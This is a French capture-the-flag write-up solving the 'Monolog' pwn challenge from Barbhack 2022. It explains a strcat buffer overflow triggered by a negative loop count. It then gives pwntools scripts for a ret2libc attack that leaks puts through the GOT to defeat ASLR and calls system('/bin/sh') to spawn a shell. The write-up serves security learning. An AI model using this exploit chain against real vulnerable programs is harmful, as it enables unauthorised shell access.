







# Monolog - catégorie PWN

**Disclaimer: Je n'ai pas participé au ctf Barbhack 2022, mais des collègues ont pu me fournir ce challenge quelques jours après l'évent. Voici comment je l'ai résolu**

## Analyse statique

Le comportement normal du binaire :


En ouvrant le binaire avec ghidra, on remarque que la fonction main ne sert qu'à appeller la fonction ``monolog``, qui est notre fonction vulnérable. Son code décompilé ressemble à ça :


Le while décompilé à l'air un peu compliqué à comprendre, mais concrètement, la boucle ne sert qu'à ça :
<a name="boucle"></a>
```c
for (int i = input_number; i == 0; --i)
{
	/* code */
}
```

En lisant le reste du code, on voit que ``fgets`` est utilisé pour lire l'entrée utilisateur, et qu'à priori il n'y a pas de possibilité de faire un buffer overflow via ces appels. (Le buffer1 à une taille de 100, et lorsqu'on le remplit, soit on lit 10 caractère soit 100, donc on a pas de place supplémentaire pour injecter dans la mémoire)

Par contre, on remarque un appel ``strcat(buffer1, buffer2)`` à la ligne 28. Je n'avais jamais vu cette fonction avant, et voilà ce que nous dit le manuel dessus:



``[...] the dest string must have enough space for the result.  If dest is not large enough, program behavior is unpredictable``

Et voilà notre vecteur d'attaque, on va créer un buffer overflow via une mauvaise utilisation de strcat. Ici, ``dest`` est notre buffer2 de taille de 1000, et buffer1 notre input à chaque tour de boucle, d'une taille de 100. Si on utilise le programme normalement, ça reste toujours impossible d'exploiter strcat, parce que la valeur maximale de ``input_number``, (qui détermine combien de fois on a le droit de "parler") est de 10. 10\*100 = 1000, le buffer2 est toujours assez grand pour tout stocker sans déborder dans la mémoire.
Mais si on regarde bien la condition de la [boucle](#boucle), on voit que le test est ``i == 0``. Donc si on rentre un nombre qui est inférieur à 0, on va avoir une boucle infinie. Et donc on pourra remplit notre buffer2 autant qu'on voudra...

Maintenant qu'on a notre plan, il reste plus qu'à l'exploiter.


## Exploitation

Grâce à un petit checksec, on sait quel genre de buffer overflow on va devoir faire; vu que la stack n'est pas éxecutable (NX), on va devoir faire une attaque [ret2libc](https://beta.hackndo.com/retour-a-la-libc/)



(L'ASLR sera aussi activé, les adresse des fonctions de libraries seront randomisées)

### Leak puts
Voici à quoi ressemblera notre programme pour leak l'adresse de puts, qui nous permettra de calculer l'adresse de la libc :
```py
from pwn import *


context.binary = binary = ELF("./monolog")

OFFSET = ????

puts_libc = binary.libc.sym["puts"]
puts_plt = binary.plt["puts"]
puts_got = binary.got["puts"]
main = binary.sym["main"]

payload = b''.join([
		b"A"*OFFSET,
		p32(puts_plt),
		p32(main),
		p32(puts_got),
	])

p = process()
p.sendline(b"-1")
p.sendline(payload)
p.sendline(b"stop")
p.readuntil(b"monolog : ")
p.readuntil(b"\n\n")

leaked = u32(p.readline().strip()[:4])
libc_addr = leaked - puts_libc

print("puts :", hex(leaked), "- libc :", hex(libc_addr))
```

(Pour comprendre le fonctionnement théorique de l'exploit et les sections PLT & GOT : [1](https://www.youtube.com/watch?v=kUk5pw4w0h4), [2](https://www.youtube.com/watch?v=PVSrbXPAc-Y), [3](https://systemoverlord.com/2017/03/19/got-and-plt-for-pwning.html), [4](https://book.hacktricks.xyz/reversing-and-exploiting/linux-exploiting-basic-esp/rop-leaking-libc-address))

Pour trouver notre offset, on va lancer le binaire dans gdb. Ma façon de faire à été de rentrer 2 string reconnaissable pour pouvoir localiser le buffer2 dans la stack, "AAA" et "BBB", puis de trouver l'adresse du saved EIP pour calculer l'offset nécessaire entre le début du buffer2 et l'adresse du EIP.


Tout en haut de notre stack, on a comme prévu notre dernière input, ``0x0a424242`` correspond à "BBB\n". Un peu plus loin, en ``0xffffd124`` on retrouve notre buffer2 avec la première input, "AAA\n". 

En utilisant ensuite ``info frame`` on est capable de trouver à quel adresse se trouve EIP et ainsi on peut simplement faire une soustraction pour calculer l'offset



En mettant l'offset à 1016, et en lançant notre script on obtient comme résultat:




### Call system

Pour appeller ``system``, maintenant qu'on connait l'adresse de libc dans le binaire, il ne nous reste plus qu'à rajouter quelques variables dans le script et rentrer un nouveau payload:

```py
system_libc = binary.libc.sym["system"]
binsh_libc = next(binary.libc.search(b"/bin/sh"))

system = libc_addr + system_libc
binsh = libc_addr + binsh_libc

payload = b''.join([
		b"A"*1016,
		p32(system),
		p32(main),
		p32(binsh)
	])

p.sendline(b"-1")
p.sendline(payload)
p.sendline(b"stop")
p.readrepeat(.5)
p.interactive()
```

Le script final est [ici](./exploit.py) et une fois lancé, on a un exploit fonctionnel:

